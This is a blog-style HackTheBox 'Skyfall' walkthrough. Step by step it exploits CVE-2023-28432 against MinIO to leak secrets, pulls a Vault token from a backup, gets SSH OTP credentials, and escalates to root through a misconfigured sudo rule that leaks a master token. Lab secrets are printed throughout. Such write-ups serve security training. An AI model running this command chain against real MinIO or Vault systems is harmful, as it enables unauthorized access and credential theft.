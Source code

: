 ```yaml
---
title: HackTheBox - Skyfall
categories: [Red Team, HackTheBox]
tags: [web, fuzz, ffuf, subdomain, htb-insane, privesc, linux]
author: Jenil
image: assets/images/HackTheBox-Skyfall/Skyfall.png
---
```


Nmap result:
```
Nmap scan report for 10.10.11.254
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.88 seconds

```


## User

Find demo.skyfall.htb subdomain with ffuf.

Use CVE-2023-28432 to get `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD` 

`mc alias set myminio http://prd23-s3-backend.skyfall.htb/ `<abbr title="MINIO_SECRET_KEY">5GrE1B2YGGyZzNHZaIww</abbr> <abbr title="MINIO_ROOT_PASSWORD"> GkpjkmiVmpFuL2d3oRx0</abbr> 

`mc ls --recursive --versions myminio  `

There are multiple version of home_backup.tar.gz with id.
`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz . ` 
  
Retrieve VAULT token in .bashrc file  
  
Exports paths  
  
```console
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"  
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"  
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```
  
install vault binary  
  
[https://developer.hashicorp.com/vault/install](https://developer.hashicorp.com/vault/install)  
  
```console
$ vault login
```
  
```console
$ curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"askyy"}'
```
OR
```console
$ vault write ssh/creds/dev_otp_key_role ip=10.10.11.254 username=askyy
```

Then,
```console
ssh askyy@10.10.11.254
```
Enter key as a password got from above vault comand.
  
## Root  

```console  
$ sudo -l 
  
User askyy may run the following commands on skyfall:  
(ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*  
(ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml 
```
  
```console
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```
  
this command create a file in user home dir but we dont have permission to read file  
  
so crete a new dir and new file its name is debug.log  
  
For example:-  
  
```console
$ mkdir /home/askyy/d1/debug.log
``` 
  
Run this command but output save my file  
```console
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d /home/askyy/d1/debug.log
```
  
```console
$ cat /home/askyy/d1/debug.log
2024/02/05 15:57:33 Initializing logger...  
2024/02/05 15:57:33 Reading: /etc/vault-unseal.yaml  
2024/02/05 15:57:33 Security Risk!  
2024/02/05 15:57:33 Master token found in config: <you-Got-Master-Token>  
2024/02/05 15:57:33 Found Vault node: [http://prd23-vault-internal.skyfall.htb](http://prd23-vault-internal.skyfall.htb/)  
2024/02/05 15:57:33 Check interval: 5s  
2024/02/05 15:57:33 Max checks: 5  
2024/02/05 15:57:33 Establishing connection to Vault...  
2024/02/05 15:57:33 Successfully connected to Vault: [http://prd23-vault-internal.skyfall.htb](http://prd23-vault-internal.skyfall.htb/)  
2024/02/05 15:57:33 Checking seal status  
2024/02/05 15:57:33 Vault sealed: false
```
  
After that get master token  
  
Export paths with master token  
  
```console
$ export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"  
$ export VAULT_TOKEN="<your-master-token>"  
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"  
```
  
```console
$ curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"root"}' $VAULT_ADDR/v1/ssh/creds/admin_otp_key_role
```
OR

```console
$ vault write ssh/creds/admin_otp_key_role ip=10.10.11.254 username=root
```

```console
$ ssh root@10.10.11.254
```

And boom we got root on the machine!!!